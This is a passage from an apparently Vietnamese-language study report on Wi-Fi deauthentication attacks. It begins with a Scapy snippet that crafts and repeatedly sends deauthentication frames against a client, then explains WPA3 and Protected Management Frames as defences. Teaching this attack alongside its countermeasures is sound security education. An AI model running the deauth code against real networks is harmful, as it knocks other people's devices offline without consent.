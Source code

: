   ```python
  beacon_frame.show()

  # Tạo gói tin Deauthentication dựa trên thông tin từ Beacon
  dot11 = Dot11(addr1=client_mac, addr2=ap_mac, addr3=ap_mac)
  deauth_frame = RadioTap()/dot11/Dot11Deauth(reason=7)
  print("Thông tin gói Deauthentication:")
  deauth_frame.show()

  # Gửi gói tin Deauthentication liên tục để tấn công
  sendp(deauth_frame, iface=iface, count=100, inter=0.1)
  ```
  - **Giải thích:**  
    - Đoạn mã đầu tiên minh họa cách tạo một Beacon frame để nắm bắt cấu trúc gói tin thông thường.
    - Sau đó, sử dụng thông tin của Beacon (địa chỉ MAC của AP) để xây dựng gói tin Deauthentication với Reason Code 7.
    - Cuối cùng, gói tin Deauthentication được gửi liên tục qua giao diện monitor để thực hiện tấn công.

# 3️⃣ Cách phòng chống tấn công Deauthentication (Người 3)
WPA3 và Protected Management Frames (PMF).
## WPA3
-    WPA là từ viết tắt cho Wi-Fi Protected Access, nó là một chứng chỉ bảo mật do Wi-Fi Alliance tạo ra để bảo vệ các kết nối không dây. Bạn có thể hiểu đơn giản rằng WPA là một bộ quy tắc được thiết kế để giúp bảo vệ bộ định tuyến Wi-Fi nhà mình, các thiết bị mà nó kết nối tới cùng những dữ liệu được truyền đi. Nhờ vào một lớp liên lạc trung gian, hai thiết bị đầu và cuối sẽ không cần phải biết được các thông tin "bí mật" của nhau.

-    WPA2 đang là chuẩn bảo mật được sử dụng ở nước ta hiện tại. Nó được ra mắt vào năm 2004 và là một bước cải tiến lớn so với những gì mà chúng ta phải sử dụng trước đó, song nó đã dần bộc lộ những điểm lỗi thời sau 14 năm hoạt động. Do đó, WPA3 được ra đời để giúp khắc phục những yếu điểm cần được thay thế của phiên bản tiền nhiệm.

-    Giao thức bảo mật mới cung cấp một số cải tiến lớn cho các thiết bị có hỗ trợ Wi-Fi về cấu hình, xác thực và tăng cường mã hóa, khiến hacker khó tấn công WiFi hoặc rình mò mạng của bạn hơn. Wi-Fi Alliance đã giới thiệu hai loại của giao thức bảo mật mới nhất - WPA3-Personal và WPA3-Enterprise - cho các mạng không dây cá nhân, doanh nghiệp và IoT.

### WPA3-Personal
-    WPA3-Personal (WPA3-SAE): Chế độ này tập trung cải thiện bảo mật cho người dùng cá nhân bằng cách sử dụng Simultaneous Authentication of Equals (SAE). So với WPA2, SAE giúp tăng cường mã hóa ngay cả khi người dùng đặt mật khẩu đơn giản.
### WPA3-Enterprise
-    WPA3-Enterprise: Đây là bản nâng cấp từ WPA2-Enterprise, được thiết kế cho các tổ chức và doanh nghiệp. Chế độ này yêu cầu Protected Management Frames (PMF) trên tất cả các kết nối, hỗ trợ nhiều phương thức xác thực EAP và cung cấp mã hóa mạnh hơn với 128-bit authenticated encryption, 256-bit key derivation & confirmation, cùng 128-bit PMF để bảo vệ dữ liệu quan trọng.
    -    TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384: ECDHE và ECDSA sử dụng số nguyên tố 384-bit
    -    TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384: ECDHE sử dụng số nguyên tố 384-bit; số module RSA ≥ 3072-bit
    -    TLS_DHE_RSA_WITH_AES_256_GCM_SHA384: số module RSA ≥ 3072-bit và DHE ≥ 3072-bit.
